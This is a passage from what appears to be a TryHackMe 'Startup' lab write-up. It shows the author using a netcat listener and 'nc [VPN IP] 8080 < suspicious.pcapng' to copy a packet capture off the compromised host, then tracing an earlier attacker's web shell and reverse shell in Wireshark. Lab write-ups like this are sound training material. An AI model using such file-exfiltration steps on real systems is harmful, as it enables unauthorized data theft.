 As www-data we own a folder and a txt file. I checked the incidents folder and found a pcapng file, I used netcat to transfer the file to my machine so I could review in Wireshark.

On my machine:

```highlight
┌──[daz@parrot]─[~/Documents/TryHackMe/Startup]
└──╼ $nc -nvlp 8080 > catch.pcapng
listening on [any] 8080 ...
```

Back on Startup:

```highlight
$ cd incidents
$ ls
suspicious.pcapng
$ nc [VPN IP] 8080 < suspicious.pcapng
```

Opening the file in Wireshark allows us to review the packet capture and review the captured incident.

![wireshark](/assets/images/startup/wireshark.png)

Scanning through it appears someone has completed the same steps I have by uploading a web shell and navigating to the directory via port 80 and executed the reverse shell. After the GET request I can see TCP packets on port 4444. Right click on one of the packets and select Follow > TCP Stream. This will show the entire TCP stream and all the commands and responses between the attacker and the server.

